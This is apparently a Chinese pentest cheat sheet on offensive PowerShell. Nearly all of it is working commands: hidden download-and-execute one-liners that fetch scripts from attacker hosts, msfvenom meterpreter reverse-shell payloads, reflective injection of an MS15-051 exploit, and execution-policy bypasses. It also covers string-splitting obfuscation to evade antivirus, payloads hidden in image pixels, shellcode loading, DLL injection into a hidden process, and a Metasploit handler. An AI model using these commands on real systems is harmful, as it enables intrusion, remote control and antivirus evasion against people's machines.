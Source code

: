     查看版本$PSVersionTable
  #### 远程执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('');Invoke-xxx"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/100.png)
  #### 加载exe
	msfvenom生成exe木马
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f exe > /var/www/html/1.exe  
	使用powersploit的Invoke-ReflectivePEInjection.ps1脚本
	>powershell.exe -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/clymberps/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.0.107/1.exe -ForceASLR" 
  #### EXE2PS1
	http://192.168.0.107/ps/powersploit/CodeExecution/Convert-BinaryToString.ps1
	将exe转换为base64
	>Import-Module .\Convert-BinaryToString.ps1
	>Convert-BinaryToString -FilePath .\ms15051.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/101.png)

	http://192.168.0.107/ps/powersploit/CodeExecution/Invoke-ReflectivePEInjection.ps1
	Invoke-ReflectivePEInjection.ps1文件头部添加
	Function MS15051{
	<#
	.SYNOPSIS    
	.EXAMPLE
    C:\PS> MS15051 -Command "whoami"
	#>
	 [CmdletBinding()]
	    param(
	        [Parameter(Mandatory = $False)]
	        [string]
	        $Command
      )
	$InputString = "文件的base64编码"
	$PEBytes = [System.Convert]::FromBase64String($InputString)
	文件尾部添加
	write-host ("[+] Executing Command: "+$Command)  -foregroundcolor "Green"
	Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs $Command 
	write-host ("[+] Done !")  -foregroundcolor "Green"
	}
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/102.png)

	远程下载执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.107/ps/powersploit/CodeExecution/ms15051.ps1'); MS15051 –Command \"whoami\""
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/103.png)
  #### 绕过策略
	>powershell Set-ExecutionPolicy Unrestricted需管理员权限，不受限执行
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/Invoke-xxx.ps1');invoke-xxx"
	>powershell -exec bypass -File ./a.ps1&>Import-Module xxx
  ##### Base64
	>use exploit/multi/script/web_delivery|target=2(PSH)
	&
	>cat payload.txt | iconv --to-code UTF-16LE |base64
	>powershell -ep bypass -enc base64code
  ##### 写入bat绕过
	powershell -exec bypass -File ./a.ps1 
	将该命令保存为c.bat
  ##### 拼接拆分字符串
	powershell.exe  
	"
	$c1='powershell -c IEX'; 
	$c2='(New-Object Net.WebClient).Downlo'; 
	$c3='adString("http://192.168.197.192/a.ps1")'; 
	echo ($c1,$c2,$c3) 
	" 
	先将命令拆分为字符串，然后进行拼接。echo修改为IEX执行。
	powershell $c2='IEX (New-Object Net.WebClient).Downlo';$c3='adString(''http://x.x.x.x/a'')'; $Text=$c2+$c3; IEX(-join $Text)
  ##### Replace替换函数
	powershell -noexit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://192.168.0.108/1.ps1'')'.Replace('123','adString');IEX ($c1+$c2)" 
  ##### HTTP字符拼接绕过
	也可以对http字符进行绕过，同样可以bypass
	powershell "$a='IEX((new-object net.webclient).downloadstring("ht';$b='tp://192.168.197.192/a.ps1"))';IEX ($a+$b)"  
  ##### 图片免杀
	通过图片免杀执行powershell的脚本Invoke-PSImage.ps1，主要把payload分散存到图片的像素中,最后到远端执行时,再重新遍历重组像素中的payload执行。
	https://github.com/peewpw/Invoke-PSImage
	1900*1200的图片x.jpg。
	C:\>powershell 
	PS C:\> Import-Module .\Invoke-PSImage.ps1 
	PS C:\> Invoke-PSImage -Script .\a.ps1 -Image .\x.jpg -Out .\reverse_shell.png -Web 
	a.ps1是msf木马，-Out 生成reverse_shell.png图片，-Web 输出从web读取的命令。
	将reverse_shell.png移动至web目录，替换url地址。在powershell下执行即可。
  ##### 加载shellcode
	msfvenom生成脚本木马
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.72.164 LPORT=4444 -f powershell -o /var/www/html/test  
	在windows靶机上运行一下命令
	PS >IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-Shellcode.ps1") 
	PS >IEX(New-Object Net.WebClient).DownloadString("http://192.168.72.164/test") 
	Invoke-Shellcode -Shellcode $buf -Force  运行木马 
	使用Invoke-Shellcode.ps1脚本执行shellcode
	即可反弹meterpreter shell
  ##### 加载dll
	使用msfvenom 生成dll木马脚本
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.72.164 lport=4444 -f dll -o /var/www/html/test.dll 
	将生成的dll上传到目标的C盘。在靶机上执行以下命令
	PS >IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-DllInjection.ps1") 
	Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden  
	创建新的进程启动记事本，并设置为隐藏
	Invoke-DllInjection -ProcessID xxx -Dll c:\test.dll 使用notepad的PID  
	Msf
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>run
